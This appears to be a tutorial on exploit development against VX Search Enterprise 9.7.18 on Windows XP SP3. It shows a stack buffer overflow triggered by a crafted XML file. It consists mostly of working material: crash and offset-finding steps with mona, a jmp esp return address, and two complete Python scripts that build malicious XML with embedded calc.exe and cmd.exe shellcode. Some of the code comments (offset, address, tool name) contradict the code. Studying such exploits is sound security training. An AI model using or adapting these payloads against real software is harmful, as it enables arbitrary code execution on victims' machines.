



# Part1: Stack Overflow

## Getting things setup
1. windows xp sp3 32-bit
2. [vulnerable software-vxsrchc.exe](https://www.exploit-db.com/apps/746ec728a4cf975be799c7f509db383e-vxsearchent_setup_v9.7.18.exe)

When import a crafted xml file, it would cause stack overflow and code excution.


## Crash 
```
> python -c "print 'A'*2000"
```
```
<?xml version="1.0" encoding="UTF-8"?>
<classify
name='AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'/>
</classify>
```


Look, EIP got overwritten


## Identify offset

```
0:002> !py mona pattern_create 2000
0:000> !py mona pattern_offset 42327a42
Hold on...
[+] Command used:
!py mona.py pattern_offset 42327a42
Looking for Bz2B in pattern of 500000 bytes
 - Pattern Bz2B (0x42327a42) found in cyclic pattern at position 1536
0:000> !py mona findmsp
```


```
<?xml version="1.0" encoding="UTF-8"?>
<classify
name='Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co
'/>
</classify>
```



In this case, shellcode is on stack, the next step is jumping to stack. Let's find a pointer to jump esp.


## Jump to ESP, pop calc
```
0:000> !py mona jmp -r esp
```

I pick this one


```
import struct
 
BUF_SIZE = 2000                         # Set a consistent total buffer size
 
junk = "\x41"*1536                       # 997 bytes to hit EIP
eip = struct.pack("<L", 0x7c874413)     # Use little-endian to format address 0x7c836a78 # jmp esp # kernel32.dll
nops= "\x90"*16

# calc.exe shellcode for WinXP SP3 on stack
shellcode = "\x31\xC9"                  # xor ecx,ecx
shellcode += "\x51"                     # push ecx
shellcode += "\x68\x63\x61\x6C\x63"     # push 0x636c6163
shellcode += "\x54"                     # push dword ptr esp
shellcode += "\xB8\xC7\x93\xC2\x77"     # mov eax,0x77c293c7
shellcode += "\xFF\xD0"                 # call eax
 
exploit = junk + eip + nops + shellcode # Combine our exploit with a NOP sled and working shellcode
fill = "\x43"*(BUF_SIZE-len(exploit))   # Calculate number of filler bytes to use (C)
buf = exploit + fill                    # Combine everything together for exploitation
xml_payload = '<?xml version="1.0" encoding="UTF-8"?>\n<classify\nname=\'' + buf + '\'/>\n</classify>'
 
try:
    f = open(r"C:\Documents and Settings\Administrator\Desktop\payload.xml", "wb") # Exploit output will be written to C directory
    f.write(xml_payload)                        # Write entirety of buffer out to file
    f.close()                           # Close file
    print "\nNScan 0.9.1 Saved Return Pointer Overwrite Exploit"
    print "\nExploit written successfully!"
    print "Buffer size: " + str(len(xml_payload)) + "\n" # Buffer size sanity check to ensure there's nothing funny going on
except Exception, e:
    print "\nError! Exploit could not be generated, error details follow:\n"
    print str(e) + "\n"  
```

Here we go


But let's take a look at stack memory, em, there are unexpected instructions!

If our shellcode size is more than 16 bytes, it will exploit fail.


So, we need jump to these unexpected instructions.

## Jump to local shellcode

Let's use another [shellcode](http://shell-storm.org/shellcode/files/shellcode-662.php) which size is bigger.

If we can take 0x14 bytes forward, we could skip the unexpected instructions.

It seems mona creates uncorrect "jmp 10" opcode, so I found this: [SHORT Relative Jumps on X86](https://thestarman.pcministry.com/asm/2bytejumps.htm)

```
import struct
 
BUF_SIZE = 2000                         # Set a consistent total buffer size
 
junk = "\x41"*1536                       # 1536 bytes to hit EIP
eip = struct.pack("<L", 0x7c874413)     # Use little-endian to format address 0x7c836a78 # jmp esp # kernel32.dll
nops= "\x90"*16

jmp = "\xeb\x14"
nops2 = "\x90"*16 + "\x90"*16            # 16 byte NOPs to get to jump landing + 16 byte NOPs to slide into shell

# Command prompt (cmd.exe) shellcode + process exit (195 bytes)
shellcode =  "\xFC\x33\xD2\xB2\x30\x64\xFF\x32\x5A\x8B"
shellcode +=  "\x52\x0C\x8B\x52\x14\x8B\x72\x28\x33\xC9"
shellcode +=  "\xB1\x18\x33\xFF\x33\xC0\xAC\x3C\x61\x7C"
shellcode +=  "\x02\x2C\x20\xC1\xCF\x0D\x03\xF8\xE2\xF0"
shellcode +=  "\x81\xFF\x5B\xBC\x4A\x6A\x8B\x5A\x10\x8B"
shellcode +=  "\x12\x75\xDA\x8B\x53\x3C\x03\xD3\xFF\x72"
shellcode +=  "\x34\x8B\x52\x78\x03\xD3\x8B\x72\x20\x03"
shellcode +=  "\xF3\x33\xC9\x41\xAD\x03\xC3\x81\x38\x47"
shellcode +=  "\x65\x74\x50\x75\xF4\x81\x78\x04\x72\x6F"
shellcode +=  "\x63\x41\x75\xEB\x81\x78\x08\x64\x64\x72"
shellcode +=  "\x65\x75\xE2\x49\x8B\x72\x24\x03\xF3\x66"
shellcode +=  "\x8B\x0C\x4E\x8B\x72\x1C\x03\xF3\x8B\x14"
shellcode +=  "\x8E\x03\xD3\x52\x68\x78\x65\x63\x01\xFE"
shellcode +=  "\x4C\x24\x03\x68\x57\x69\x6E\x45\x54\x53"
shellcode +=  "\xFF\xD2\x68\x63\x6D\x64\x01\xFE\x4C\x24"
shellcode +=  "\x03\x6A\x05\x33\xC9\x8D\x4C\x24\x04\x51"
shellcode +=  "\xFF\xD0\x68\x65\x73\x73\x01\x8B\xDF\xFE"
shellcode +=  "\x4C\x24\x03\x68\x50\x72\x6F\x63\x68\x45"
shellcode +=  "\x78\x69\x74\x54\xFF\x74\x24\x20\xFF\x54"
shellcode +=  "\x24\x20\x57\xFF\xD0"
 
exploit = junk + eip + nops + jmp + nops2 + shellcode # Combine our exploit with a NOP sled and working shellcode
fill = "\x43"*(BUF_SIZE-len(exploit))   # Calculate number of filler bytes to use (C)
buf = exploit + fill                    # Combine everything together for exploitation
xml_payload = '<?xml version="1.0" encoding="UTF-8"?>\n<classify\nname=\'' + buf + '\'/>\n</classify>'
 
try:
    f = open(r"C:\Documents and Settings\Administrator\Desktop\payload.xml", "wb") # Exploit output will be written to C directory
    f.write(xml_payload)                        # Write entirety of buffer out to file
    f.close()                           # Close file
    print "\nNScan 0.9.1 Saved Return Pointer Overwrite Exploit"
    print "\nExploit written successfully!"
    print "Buffer size: " + str(len(xml_payload)) + "\n" # Buffer size sanity check to ensure there's nothing funny going on
except Exception, e:
    print "\nError! Exploit could not be generated, error details follow:\n"
    print str(e) + "\n" 
```


## Ref
1. http://www.shogunlab.com/blog/2017/08/19/zdzg-windows-exploit-1.html
2. http://www.shogunlab.com/blog/2017/08/26/zdzg-windows-exploit-2.html
3. http://www.shogunlab.com/blog/2017/09/02/zdzg-windows-exploit-3.html